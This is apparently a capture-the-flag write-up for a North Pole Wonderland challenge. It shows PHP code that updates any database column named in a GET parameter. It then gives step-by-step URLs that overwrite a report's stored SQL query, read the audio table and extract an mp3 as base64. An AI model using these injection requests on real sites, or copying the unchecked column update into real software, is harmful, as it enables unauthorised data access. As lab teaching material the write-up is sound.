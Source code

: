 ``` php
    $result = mysqli_query($db, "SELECT * FROM `reports` WHERE `id`='" . mysqli_real_escape_string($db, $_GET['id']) . "' LIMIT 0, 1");
    if(!$result) {
      reply(500, "MySQL Error: " . mysqli_error($db));
      die();
    }
    $row = mysqli_fetch_assoc($result);

    # Update the row with the new values
    $set = [];
    foreach($row as $name => $value) {
      print "Checking for " . htmlentities($name) . "...<br>";
      if(isset($_GET[$name])) {
        print 'Yup!<br>';
        $set[] = "`$name`='" . mysqli_real_escape_string($db, $_GET[$name]) . "'";
      }
    }
```

The code goes through and updates each column of the *reports* table if the corresponding name and value is found in the GET request.

Here's an example of the default request to edit.php after clicking on 'Edit'

```
https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=
```

We can modify the value of the 'query' column of the existing report by adding a `query` parameter and value:

```
https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=&query=SELECT%20*%20FROM%20`audio`
```

This will let us perform a 'sql injection' attack by querying any data we want by first editing the 'query' of a report, and then viewing it.

Here's how I solved this challenge:

Edit a report's query to view the rows in the *audio* table

```
https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=&query=SELECT%20*%20FROM%20`audio`
```

Now view the report

```
https://analytics.northpolewonderland.com/view.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029
```

To download the mp3, I used the `TO_BASE64()` function

```
https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=&query=SELECT%20TO_BASE64(mp3)%20FROM%20`audio`%20limit%201,%201
```
